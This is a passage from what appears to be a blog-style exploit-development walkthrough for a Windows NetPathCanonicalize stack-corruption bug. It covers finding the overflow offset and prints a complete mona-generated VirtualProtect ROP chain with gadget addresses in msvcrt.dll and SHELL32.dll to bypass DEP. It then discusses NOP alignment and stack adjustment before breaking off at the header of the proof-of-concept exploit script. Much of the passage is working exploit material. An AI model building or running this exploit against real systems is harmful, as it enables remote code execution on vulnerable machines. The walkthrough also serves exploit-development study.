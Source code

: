 ![Rop Offset]({{ site.url }}/assets/ropjumper.png)

##  Disable DEP

Ok, that one is out of the picture i'm shore their are other ways to do that probably even better, with that out of the way the next step is to find out the offset in 508 A's, the process is same as before replace it with a patttern get the offset it was 98 bytes from the begining, this means that our **DEP ROP** bypass will start their.  
With the help of mona again to collect rop gagets and suggestions, things become a lot easier than they use to be, most of the heavy lifting is done by the script you just need to check it and make shore its correct give it a tweek here and their.  

{% highlight python %}
 # rop chain generated with mona.py - www.corelan.be
  0x77bc5f6e,  # POP EAX # RETN [msvcrt.dll] 
  0x7c8d1748,  # ptr to &VirtualProtect() [IAT SHELL32.dll]
  0x7c9db891,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [SHELL32.dll] 
  0x77bb0c86,  # XCHG EAX,ESI # RETN [msvcrt.dll] 
  0x77bac145,  # POP EBP # RETN [msvcrt.dll] 
  0x7c9b640c,  # & jmp esp [SHELL32.dll]
  0x7c946761,  # POP EAX # RETN [SHELL32.dll] 
  0xfffffdff,  # Value to negate, will become 0x00000201
  0x7c9b2676,  # NEG EAX # RETN [SHELL32.dll] 
  0x7ca2a6af,  # XCHG EAX,EBX # RETN [SHELL32.dll] 
  0x77bdf0da,  # POP EAX # RETN [msvcrt.dll] 
  0xffffffc0,  # Value to negate, will become 0x00000040
  0x7c9b2676,  # NEG EAX # RETN [SHELL32.dll] 
  0x77bb8285,  # XCHG EAX,EDX # RETN [msvcrt.dll] 
  0x77bbc98a,  # POP ECX # RETN [msvcrt.dll] 
  0x7cadc046,  # &Writable location [SHELL32.dll]
  0x7c92940e,  # POP EDI # RETN [SHELL32.dll] 
  0x7c9b2678,  # RETN (ROP NOP) [SHELL32.dll]
  0x77bdf0da,  # POP EAX # RETN [msvcrt.dll] 
  0x90909090,  # nop
  0x7c8f417c,  # PUSHAD # RETN [SHELL32.dll] 
{% endhighlight %}


##  Alignment  and shellcode 

Ajust the poc exploit and place the breakpoints and replace the rest of the payload after the **DEP ROP** with **NOPS** or **0xCC** breapoints, make shore everithing is correct, and check where **EIP** will point to after returning from ourt **VirtualProtect** **ROP Chain**.  

You will notice that it will require **4 NOPS** followed by the stack ajustment that is the same metasploit is using, at this stage i was preaty confident that i had something the problem was space was geting short, soc before we go further our poc exploit by now looks like this:  

{% highlight python %}
#!/usr/bin/python

# -*- coding: utf-8 -*-


##################################################################################
# 
# Vulnerability: NetPathCanonicalize Stack corruption
# Dep bypass with VirtualProtect